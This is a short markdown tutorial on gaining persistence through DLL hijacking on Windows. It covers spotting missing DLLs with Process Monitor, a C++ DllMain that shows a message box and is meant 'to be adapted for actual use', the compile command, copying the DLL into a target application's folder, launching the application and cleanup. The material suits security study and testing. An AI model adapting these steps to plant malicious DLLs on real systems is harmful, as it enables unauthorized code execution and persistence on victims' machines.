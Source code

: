 legal-banner: true
---

### **Establishing Persistence Using DLL Hijacking**

DLL hijacking takes advantage of the way Windows applications search for and load Dynamic Link Libraries (DLLs). Below is a detailed explanation of the commands and technical steps involved in setting up a DLL hijacking scenario:

### **Step 1: Identifying Vulnerable Applications and DLLs**

1. Download and run Process Monitor.  
2. Set up a filter to observe the DLL loading behavior of the target application.  
3. Look for entries that indicate a DLL is being searched for but not found, or one that is loaded from a non-specific path.  
   Example filter:  
   `Filter -> Category -> Path -> contains -> .dll`

### **Step 2: Creating the Malicious DLL**

4. Write C++ code that performs the desired action when the DLL is loaded. Below is an example that displays a basic message box when loaded (to be adapted for actual use):
   
   ```c++
    #include <Windows.h>

    BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
        switch (fdwReason) {
        case DLL_PROCESS_ATTACH:
            MessageBoxW(NULL, L"DLL has been injected!", L"DLL Hijacking", MB_OK);
            break;
        }
        return TRUE;
    }
    ```
    
5.  Use a command line compiler like MinGW or Visual Studio `cl` command to compile the DLL.  
    `cl /LD MaliciousDll.cpp /Fe:MaliciousDll.dll`

### **Step 3: Placing the Malicious DLL**

6.  Depending on the DLL search order and your access rights, place the DLL in a directory that will be searched before the legitimate DLL’s usual directory.
7.  Common locations to test include the application’s directory or directories listed in the system `PATH`.  
    `copy MaliciousDll.dll C:\Path\To\Target\Application\`

### **Step 4: Triggering the Exploit**

8.  Simply starting the application normally should trigger the loading of your malicious DLL, if placed correctly.  
    `start "" "C:\Path\To\Target\Application\Application.exe"`

### **Step 5: Monitoring and Cleanup**

9.  Reopen Process Monitor and check for the loading event of your `MaliciousDll.dll`.
10. Ensure that your message box or other indicators of execution appear as expected.
11. Remove the malicious DLL from the directory to prevent further execution and to clean up the environment.  
    `del C:\Path\To\Target\Application\MaliciousDll.dll`